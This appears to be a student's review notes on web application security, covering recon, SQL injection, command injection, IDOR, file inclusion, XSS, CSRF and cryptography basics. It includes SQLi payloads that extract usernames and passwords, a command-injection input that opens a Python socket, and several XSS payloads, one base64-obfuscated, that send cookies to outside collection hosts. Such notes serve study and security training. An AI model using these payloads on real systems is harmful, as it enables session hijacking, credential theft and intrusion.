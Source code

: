 # Review

## Recon

Active:

* `nmap`, `masscan`, DNS brute forcing, subdomain
* `dirb`, `dirbuster`, `gobuster`, etc.

Passive:

* using a proxy, [`linkfinder`](https://github.com/GerbenJavado/LinkFinder)
* developer tools network tab
* public resources ([dnsdumpster.com](https://dnsdumpster.com/), etc.)

## Authentication

### SSO

**Single sign-on (SSO)** is a session and user authentication service that lets a user use ***one*** set of login credentials to access ***multiple*** applications.

![sso](../imgs/sso.png)

### SAML

**Security Assertion Markup Language (SAML)** is a variant of XML used to transfer security info. It is somewhat outdated; mostly OAuth now.  
A **service provider** is a site you want to sign in for.  
A **identity provider** is a site which provides your identity (e.g. Facebook, Google etc.)

SAML provides authentication to the user. Your application is responsible for authorisation.

## Server-Side

### SQLi

``` sql
'/**/oR+'2'='2
```

Troubleshooting:

* Check your quote style; `"` or `'`
* Check URL encoding (use a proxy, `<C-u>` in BurpSuite)
* Terminate with a comments `-- -`
* Write a toy application to test your query syntax

Payloads:

* `OR 1=1` (True), `AND 1=2` (False), `OR 9=9` (WAF Bypass)
    * Alternative comments: `/**/`, `//`, `#`
    * Just `TRUE` or `FALSE` instead of expressions
    * `||` for `or`
* `UNION SELECT (new query, matching columns)`

``` sql
SELECT * FROM items where blah = 1 UNION SELECT name,pass,3 from users where ...
```

E.g. <https://portwatsonfishing.com/sqli.php?name=item1%22+union+select+name,pass,3+from+users+where+%221%22=%221>

Rules:

1. Query 1 needs the **same columns AND column types** as Query 2
2. The query must match quotes/braces, and end cleanly

### Injection

``` php
system('zip'+$_GET["id"]+'.zip /lol/*')
id=;python -c 'import sockert ...'
```

Typically when the server confuses data with code.

* SQL
* Shell commands (e.g. unsafe calls to `system()`)
* Sub-processes (e.g. tainted input to pdf generator)

Pretend you're writing the app. Where would vulnerabilities be?  
Use `sleep` commands if you can get outputs.

Reverse shell cheat sheet: <https://highon.coffee/blog/reverse-shell-cheat-sheet/>

### IDOR/Access Control

> <http://lol.com/sekrit.php?id=4>  
> <http://lol.com/adminsonly.php>

Occurs when the server doesn't validate access to a resource, data item or function.

* Authorisation vs Authentication: some instances need you to log in, but don't care who you're logged in as
* If you have a login, enumerate URLs when logged in, log out, enumerate them again
* Don't stop at `id=<yourid+1>`, try `id=1`, `id=0`

Check links carefully; HTML comments, JavaScript

### File Inclusion

> <http://lol.com/print.php?file=http://lol2.com/pew>

Occurs when the server fails to validate a path to a file.

* Can you upload a file? Does it have to be the same format?
* Can you supply a URL?
* Can you supply content directly (e.g. PHP filters, including `stdin`/`stderr`, log files etc.)

If you can't get it working, build a test application in the target language and try with toy example first.

## Client-Side

### XSS

> <http://lol.com/hello.php?name%3Cb%3Elol%3C%5Cb%3E>

* **Reflected**: server inserts payload directly into response.  
Exploit by sending a link
* **Stored**: poison data stored in back-end, displayed back later.  
Exploit by inserting poisoned values and waiting.
* **DOM-based**: inserting it directly into the DOM (e.g. via JS)

You typically want to exfiltrate the cookie, but ***not always***

Sample payloads:

``` html
<script>fetch("https://enu1mo7548jr.x.pipedream.net/"+document.cookie)</script>
<script>window.location="http://178.128.122.17?c="+document.cookie</script>
<script>new Image().src="https://enu1mo7548jr.x.pipedream.net?c="+document.cookie</script>
<img src=x onerror="this.src='https://en6u61jn3hyji.x.pipedream.net?c='+document.cookie">
<script>document.write("<img+src=https://enu1mo7548jr.x.pipedream.net"%2b+document.cookie%2b+"></img>")</script>
```

Possible bypasses:

* `document['cookie']` instead of `document.cookie`
* encoding:
    * JavaScript: `btoa` (b64 encode) and `atob` (b64 decode)

        ``` js
        fetch(`${atob('aHR0cHM6Ly9lbnUxbW83NTQ4anIueC5waXBlZHJlYW0ubmV0P2M9')}${document['cookie']}`)
        ```

    * Python: getting the URL encoding of a char:

        ``` python
        hex(ord('.'))
        ```

* embedded tags: `<sc<scriptript >window.location="https://enu1mo7548jr.x.pipedream.net?c="+document.cookie</script >`

### CSRF

> <http://lol.com/adduser.php?un=a&pw=a>

When someone (e.g. an admin) views a link on a domain they have stored cookies on, the browser automatically sends their cookies. If the link is an admin action, they do it as an admin.

To find these, set up your own instance of the application to audit, then exploit by sending the admin a poisoned link.  
You can launch CSRF from XSS (i.e. admin views a poisoned page, submits a new user request with parameters you control)

### CORS/CSP

**C**ross **O**rigin **R**esource **S**haring restricts where content can be ***loaded*** from.  
**C**ontent **S**ecurity **P**olicy restricts what content can actually run (via checksums)

TL;DR: Check your browser event logs and Google the specifics as they happen.

## Cryptography

**Hashing** proves integrity:

* [crackstation.net](https://crackstation.net/)
* [CyberChef](https://gchq.github.io/CyberChef/)

**Salting** hashes adds something to the plaintext before hashing avoiding pre-calculation and rainbow table attacks.  
**DON'T** use a common salt or a repeated salt.

**Encryption** provides secrecy.  
**Padding Oracle** attacks allow an attacker to decrypt information without knowing the encryption key. A padding oracle is a type of system that takes in encrypted data from the user, decrypts it and verifies whether the padding is correct or not. See [padding oracle attack](https://github.com/mpgn/Padding-oracle-attack)
